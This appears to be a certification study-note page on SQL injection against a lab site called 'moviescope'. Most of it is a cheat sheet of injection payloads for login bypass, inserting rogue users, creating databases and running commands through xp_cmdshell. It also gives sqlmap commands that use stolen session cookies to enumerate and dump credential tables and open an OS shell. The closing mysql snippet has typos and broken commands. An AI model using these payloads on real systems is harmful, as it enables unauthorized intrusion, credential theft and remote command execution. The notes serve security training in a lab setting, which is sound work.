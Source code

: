 # 15 - SQL Injection

## Module 15 - SQL Injection

## Manual Injection

* `‘ or 1=1 --`  for login bypass
* admin' --
* admin' #
* admin'/\*
* ' or 1=1--
* ' or 1=1#
* ' or 1=1/\*
* ') or '1'='1--
* ') or ('1'='1—
* `‘insert into login values ('john','apple123'); --` create own user in the database
* `‘create database mydatabase; --`  create database with name of mydatabase
* `‘exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --` execute ping on moviescope

## SQLMap

* Open the vulnerable website
* Copy the cookie from the inspect element
* Open the terminal and run SQLMap

### Basic Commands

* SQLMAP Extract DBS
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="xookies xxx" --dbs`
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="xookies xxx" --data="id=1&Submit=Submit"--dbs`
* Extract Tables
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope --tables`
* Extract Columns
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope -T User_Login --columns`
* Dump Data
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope -T User_Login --dump`
* OS Shell to execute commands
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" --os-shell`
* Login bypass
  * `blah' or 1=1 --`
* Insert data into DB from login
  * `blah';insert into login values ('john','apple123');`
* Create database from login
  * `blah';create database mydatabase;`
* Execute cmd from login
  * `blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --`

### **Perform an SQL Injection Attack Against MSSQL to Extract Databases using SQLMap**

* Login a website
* Inspect element
* Dev tools-\&gt;Console: document.cookie
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" –dbs**
  * **-u: Specify the target URL**
  * **--cookie: Specify the HTTP cookie header value**
  * **--dbs: Enumerate DBMS databases**
* Get a list of databases
* Select a database to extract its tables
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" -D moviescope –tables**
  * **-D: Specify the DBMS database to enumerate**
  * **--tables: Enumerate DBMS database tables**
* Get a list of tables
* Select a column
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" -D moviescope –T User\_Login --dump**
* Get table data of this column
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" --os-shell**
* Get the OS Shell
* TASKLIST

Then, if we've SQL username and psw, we can use them to login and query db.

```bash
mysql -U qdpmadmin -h 192.168.1.8 -P passwod
show databases;
use qdpm;
show tables' select * from users;
show dtabases;
use staff;
show tables;
select * from login;
select * from user;
```

### Additional Resources

{% embed url="https://medium.com/hacker-toolbelt/dvwa-1-9-viii-blind-sql-injection-with-sqlmap-ee8d59fbdea7" %}

[https://www.youtube.com/watch?v=IR1JsaSQLMc](https://www.youtube.com/watch?v=IR1JsaSQLMc)
